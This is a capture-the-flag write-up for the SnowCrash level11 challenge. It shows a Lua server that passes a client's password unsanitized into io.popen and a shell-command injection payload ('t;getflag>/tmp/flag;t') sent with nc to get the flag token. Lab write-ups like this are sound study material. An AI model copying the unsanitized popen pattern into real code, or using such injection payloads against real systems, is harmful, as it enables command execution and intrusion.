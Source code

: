 When login to level11 user we find a lua script. It's server code binding to 127.0.0.1:5151

Infinitly accepting client connection prompting `Password: ` and passes the pass writen by the
client write to `function hash(pass)`

function hash(pass)
	prog = io.popen("echo "..pass.." | sha1sum", "r")
	data = prog:read("*all")
	prog:close()

	data = string.sub(data, 1, 40)

	return data
end

The program does not sanitize what we send so it seems we can inject code
io.popen("echo "t;injected code exec as flag11;t" | sha1sum", "r")

- we'll run getflag and redirect the standard output to /tmp/flag our payload will be
t;getflag > /tmp/flag;t

```
level11@SnowCrash:~$ nc localhost 5151
Password: t;getflag>/tmp/flag;t
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
level11@SnowCrash:~$
```